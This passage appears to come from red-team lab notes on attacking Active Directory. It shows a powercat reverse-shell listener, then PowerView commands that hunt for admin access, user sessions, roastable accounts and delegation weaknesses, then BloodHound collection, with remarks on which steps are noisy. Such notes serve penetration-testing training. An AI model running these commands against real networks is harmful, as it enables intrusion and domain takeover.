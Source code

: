 If a reverse shell to your Linux box is not an option ;).

```
powercat -l -p 443 -t 9999 
```

Lateral Movement
----------------

### Lateral Movement Enumeration With PowerView

```
# Find existing local admin access for user (noisy 🚩)
Find-LocalAdminAccess

# Find local admin access over PS remoting (also noisy 🚩), requires Find-PSRemotingLocalAdminAccess.ps1
Get-NetComputer -Domain dollarcorp.moneycorp.local > .\targets.txt
Find-PSRemotingLocalAdminAccess -ComputerFile .\targets.txt dcorp-std355

# Same for WMI. Requires 'Find-WMILocalAdminAccess.ps1', which seems to be removed from Nishang?
Find-WMILocalAdminAccess -ComputerFile .\targets.txt
Find-WMILocalAdminAccess # Finds domain computers automatically

# Hunt for sessions of interesting users on machines where you have access (still noisy 🚩)
Invoke-UserHunter -CheckAccess | ?{$_.LocalAdmin -Eq True }

# Look for kerberoastable users
Get-DomainUser -SPN | select name,serviceprincipalname

# Look for AS-REP roastable users
Get-DomainUser -PreauthNotRequired | select name

# Look for users on which we can set UserAccountControl flags
## If available - disable preauth or add SPN (see below)
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Look for servers with Unconstrained Delegation enabled
## If available and you have admin privs on this server, get user TGT (see below)
Get-DomainComputer -Unconstrained

# Look for users or computers with Constrained Delegation enabled
## If available and you have user/computer hash, access service machine as DA (see below)
Get-DomainUser -TrustedToAuth | select userprincipalname,msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select name,msds-allowedtodelegateto 
```

### BloodHound

Use `Invoke-BloodHound` from `SharpHound.ps1`, or use `SharpHound.exe`. Both can be ran reflectively, get them [here](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors).

```
# Run all checks if you don't care about OpSec 🚩
Invoke-BloodHound -CollectionMethod All

# Running LoggedOn separately sometimes gives you more sessions, but enumerates by looping through hosts 🚩
Invoke-BloodHound -CollectionMethod LoggedOn 
```
